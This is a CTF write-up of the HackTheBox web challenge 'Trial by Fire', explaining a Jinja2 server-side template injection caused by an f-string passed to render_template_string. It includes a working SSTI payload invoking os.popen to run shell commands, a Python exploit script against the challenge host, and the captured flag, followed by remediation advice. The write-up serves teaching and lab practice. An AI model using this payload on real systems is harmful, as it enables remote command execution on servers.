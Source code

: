 ```yaml
---
title: "Trial by Fire"
date: 2025-03-29
description: "Behind the fiery illusion, a classic SSTI lays hidden. Here's how one template string doomed the Flame Peaks."
tags: ["Web", "CTF", "HTB"]
---
```


![Trial By Fire](https://github.com/Hacqueen-fr/hacqueen-fr.github.io/raw/refs/heads/main/assets/trialbyfire.png)

> *"The dragon never needed to breathe fire — it just needed an unescaped template string."*

---

## 🧩 Challenge Name

**Trial by Fire** — Jinja2 SSTI

---

## 📖 Storytime

You're thrown into a NES-style fantasy web world.  
Everything seems static — until you spot a user input field labeled `warrior_name`.

You enter `{{7*7}}`.

The game responds with:  
**“49”**.

The fire illusion cracks. SSTI confirmed.

---

## 🔍 Initial Observations

The application exposes a `/begin` endpoint where you submit your `warrior_name`, and a `/battle-report` page renders your performance and inputs.

---

## 🧠 Vulnerability Analysis (Source Code)

In `routes.py`, we find the `/battle-report` route building a dynamic template from **user-supplied data**:

```python
REPORT_TEMPLATE = f"""
...
<p class="nes-text is-primary warrior-name">{warrior_name}</p>
...
<p class="nes-text">{stats['outcome']}</p>
...
"""
return render_template_string(REPORT_TEMPLATE, **stats)
```

### ❌ Problem

- `warrior_name` is injected via **f-string** directly into `REPORT_TEMPLATE`
- Then the whole thing is passed to `render_template_string`, which invokes the **Jinja2 engine**
- This results in **double interpolation**:
    - First by Python (f-string)
    - Then by Jinja2 (via `render_template_string()`)

### 💥 Exploitable chain:

```text
User input → `warrior_name = "{{7*7}}"`  
→ f-string builds a string with `{{7*7}}`  
→ Jinja2 renders it → `49`
```

This allows arbitrary SSTI execution.

---

## 🛠️ Exploit Payload

Once SSTI was confirmed, we used this payload in `warrior_name`:

```jinja
{{url_for.__globals__['os'].popen('cat flag.txt').read()}}
```

---

## 🐍 Exploit Script

```python
import requests
import re

BASE_URL = "http://94.237.63.28:54398"
session = requests.Session()

payload = "{{url_for.__globals__['os'].popen('cat flag.txt').read()}}"
session.post(f"{BASE_URL}/begin", data={"warrior_name": payload})

data = {
    "battle_duration": "10",
    "damage_dealt": "999",
    "damage_taken": "0",
    "spells_cast": "5",
    "turns_survived": "13",
    "outcome": "victory"
}

resp = session.post(f"{BASE_URL}/battle-report", data=data)
html = resp.text

flag_match = re.search(r'HTB\{.*?\}', html)
if flag_match:
    print(f"🏁 FLAG TROUVÉ : {flag_match.group(0)}")
else:
    print("❌ Pas de flag.")
```

---

## 🏁 The Flag

```text
HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_7561b68252ca1d67c68357bea75f7386}
```

---

## ✅ Fix & Remediation

- ❌ **Don’t** use `render_template_string()` with dynamic f-strings and user input
- ✅ **Do** use `render_template("template.html", **context)`
- ✅ Escape user inputs properly or sanitize at input time

---

## 🧵 TL;DR

- SSTI confirmed via `{{7*7}}`
- Core vulnerability: `render_template_string(f"...{user_input}...")`
- Injected `os.popen()` to read `flag.txt`
- Retrieved flag instantly

---

## 🧡 Special Thanks

Shout-out to [**Juliusxd23**](https://github.com/Juliusxd23) who slayed the Fire Drake before me and helped pave the way.  
Sometimes, the true strength is in the alliance.

---

❤️‍🔥 The only fire that matters is the one you light in the template engine.

**– Hacqueen**
